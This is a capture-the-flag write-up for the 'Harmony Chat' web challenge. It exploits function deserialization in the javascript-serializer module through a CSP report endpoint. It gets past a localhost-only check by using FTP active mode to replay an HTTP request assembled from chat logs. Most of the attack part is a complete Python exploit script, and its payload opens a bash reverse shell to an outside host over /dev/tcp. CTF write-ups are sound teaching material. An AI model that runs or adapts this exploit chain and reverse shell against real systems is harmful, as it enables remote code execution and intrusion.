

# Harmony Chat (web, 283p, 27 solves)



Harmony Chat is Web Challenge implemented Chat application.

You can register/login user and inviting someone to chat room.

challenge source is available in [here](./files/harmony.zip)

```js
const crypto = require("crypto")
const json = require("javascript-serializer")

const utils = {}

utils.validateAndDecodeJSON = (data, jsonSchema) => {
  const decoded = JSON.parse(data)

  const result = ajv.validate(jsonSchema, decoded)
  if (!result) {
    throw ajv.errorsText()
  }

  return json.fromJSON(decoded)
}
```
In utils.js, validateAndDecodeJSON calls fromJSON of `javascript-serializer` module.

`javascript-serializer` is supported to deserialize function similar with `node-serialize` known as one of vulnerable module.

```js
const handleReport = (req, res) => {
  let data = Buffer.alloc(0)

  req.on("data", chunk => {
    data = Buffer.concat([data, chunk])
  })

  req.on("end", () => {
    res.status(204).end()

    if (!isLocal(req)) {
      return
    }

    try {
      const report = utils.validateAndDecodeJSON(data, REPORT_SCHEMA)
      console.error(generateTextReport(report["csp-report"]))
    } catch (error) {
      console.warn(error)
      return
    }
  })
}

const generateTextReport = report => {
  let text = "\nContent Security Policy violation!\n"
  text += `Document URI: ${report["document-uri"]}\n`
  text += `Blocked URI : ${report["blocked-uri"]}\n`
  text += `Directive   : ${report["violated-directive"]}\n`
  text += `Full Policy : ${report["original-policy"]}\n`

  if (report["script-sample"]) {
    text += `Sample      : ${report["script-sample"]}\n`
  }

  let sourceInfo = ""
  if (report["source-file"]) {
    sourceInfo += report["source-file"]
  }

  if (report["line-number"]) {
    sourceInfo += `:${report["line-number"]}`
  }

  if (report["column-number"]) {
    sourceInfo += `:${report["column-number"]}`
  }

  if (sourceInfo.length > 0) {
    text += `Source      : ${sourceInfo}\n`
  }

  return text
}
```

After deserialized, the csp-report property of result used for constructing report which is string type.

This means specific property of the report can be converted to string by calling their toString method.

```js
const data = `{"csp-report":{"blocked-uri":"","document-uri":"","effective-directive":"","original-policy":"","referrer":"","status-code":"","violated-directive":"","source-file":{"toString":{"___js-to-json-class___":"Function","json":"console.log(process)"}}}}`;

const report = utils.validateAndDecodeJSON(data, REPORT_SCHEMA)
console.error(generateTextReport(report["csp-report"]))
```

from the [docs](https://github.com/wix-incubator/javascript-serializer), We could know `javascript-serializer` allows to constructor object by setting `___js-to-json-class___` property.

So, above is actual input for executing script by `javascript-serializer`

```js
const REPORT_URL = "/csp-report"

const ContentSecurityPolicy = (req, res, next) => {
  if (req.path === REPORT_URL &&
      req.method === "POST" &&
      req.headers["content-type"] === "application/csp-report") {
    handleReport(req, res)
    return
  }

  injectCSPHeaders(req, res)
  next()
}
```

How to trigger, handleReport called when it received POST request for `/csp-report` route.

And their body will be given to argument of vulnerable point.

```js
const isLocal = (req) => {
  const ip = req.connection.remoteAddress
  return ip === "127.0.0.1" || ip === "::1" || ip === "::ffff:127.0.0.1"
}
```

but since there's ip restriction for the handleReport function.
We should bypass this with ftp active mode.

after writing valid http request to log,
We can transfer it to any host using ftp.

```python
from websocket import create_connection
import json, random
from pwn import *
import time

context.log_level = 'debug'

HOST = 'harmony-1.hackable.software'

def init():
    global channel_id, channel_id2, host_ws, user_id

    host_ws = create_connection(f'ws://{HOST}:3380/chat')

    host_ws.send('{"type":"register","displayName":"POST /csp-report?"}')
    res = json.loads(host_ws.recv())
    host_ws.recv()

    user_id = res['uid']
    print('[*] user id: ' + user_id)

    host_ws.send('{"type":"new-channel","name":"' + str(random.randint(10000, 99999)) + '"}')
    res = json.loads(host_ws.recv())
    
    channel_id = res['channels'][0]['chId']
    print('[*] channel id: ' + channel_id)

    payload = 'HTTP/1.1'
    host_ws.send('{"type":"message","chId":' + json.dumps(channel_id) + ',"msg":' + json.dumps(payload) + '}')

    host_ws.recv()

def save_msg(name, message):
    global channel_id, host_ws

    ws = create_connection(HOST)

    ws.send('{"type":"register","displayName":' + json.dumps(name) + '}')
    res = json.loads(ws.recv())
    ws.recv()

    user_id = res['uid']

    host_ws.send('{"type":"invite","chId":' + json.dumps(channel_id) + ',"uid":' + json.dumps(user_id) + '}')
    res = json.loads(host_ws.recv())

    ws.send('{"type":"message","chId":' + json.dumps(channel_id) + ',"msg":' + json.dumps(message) + '}')

    res = json.loads(ws.recv())

    ws.close()

# open channel for constructing log
init()

# writing HTTP header
save_msg('Content-Length', '345')
save_msg('Content-type', 'application/csp-report')
save_msg('Connection', 'close')

# message with no content adds new line
save_msg('RN', '')

save_msg('{"csp-report":{"blocked-uri"', """"","document-uri":"","effective-directive":"","original-policy":"","referrer":"","status-code":"","violated-directive":"","source-file":{"toString":{"___js-to-json-class___":"Function","json":"console.log(process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/4444 0>&1'`)+[])"}}}}""")

host_ws.close()

# ftp stage (bypassing host restriction)

p = remote(HOST, 3321)
p.sendline('user ' + user_id)
p.sendline('pass')

time.sleep(3)

p.sendline('PORT 127,0,0,1,13,52')
p.sendline('retr ' + channel_id)

p.interactive()
```
